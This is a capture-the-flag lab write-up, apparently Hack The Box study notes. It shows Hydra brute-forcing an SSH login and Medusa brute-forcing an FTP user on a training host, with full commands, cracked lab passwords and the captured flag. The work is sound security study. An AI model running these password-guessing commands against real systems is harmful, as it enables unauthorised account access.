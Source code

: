 
Explanation:
    - [-h] ip
    - [-u] ftpuser: username ftpuser.
    - [-M] ftp: selects the ftp module within medula.
    - [-t 5] Increases the number of parallel login attempts to 5.

- Retrieving the Flag:
Upon successfully cracking the FTP password, establish an FTP connection. Within the FTP session, use the get command to download the flag.txt file, which may contain sensitive information.:
`ftp ftp://ftpuser:<FTPUSER_PASSWORD>@localhost`

Exercise:
First we must to find the ftp user we can use hydra or medusa for the sshuser:
```sh
hydra -l sshuser -P CBBH/Login-Bruteforce/2023-200_most_used_passwords.txt  ssh://94.237.61.187:30751
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-04-23 08:08:07
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 200 login tries (l:1/p:200), ~13 tries per task
[DATA] attacking ssh://94.237.61.187:30751/
[30751][ssh] host: 94.237.61.187   login: sshuser   password: 1q2w3e4r5t
```
After that we must to loging sshuser:
`ssh sshuser@94.237.61.187 -p 30751 `

Then we must to know in which port is open the ftp port is open:
```sh
sshuser@ng-349590-loginbfservice-rjmfv-85f4664847-n4xd8:~$ netstat -tulpn | grep LISTEN
(No info could be read for "-p": geteuid()=1000 but you should be root.)
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp6       0      0 :::21                   :::*                    LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
```
Then we use medusa for get the pass of the ftpuser and after that we can login:
```sh
medusa -h 127.0.0.1 -u ftpuser -P 2020-200_most_used_passwords.txt  -M ftp -t 5
ACCOUNT FOUND: [ftp] Host: 127.0.0.1 User: ftpuser Password: qqww1122 [SUCCESS]
ftp ftp://ftpuser:qqww1122@localhost
ftp> get flag.txt
local: flag.txt remote: flag.txt
229 Entering Extended Passive Mode (|||64573|)
150 Opening BINARY mode data connection for flag.txt (35 bytes).
100% |************************************************************************************************|    35        1.04 MiB/s    00:00 ETA
226 Transfer complete.
sshuser@ng-349590-loginbfservice-rjmfv-85f4664847-n4xd8:~$ cat flag.txt

HTB{SSH_and_FTP_Bruteforce_Success}
```

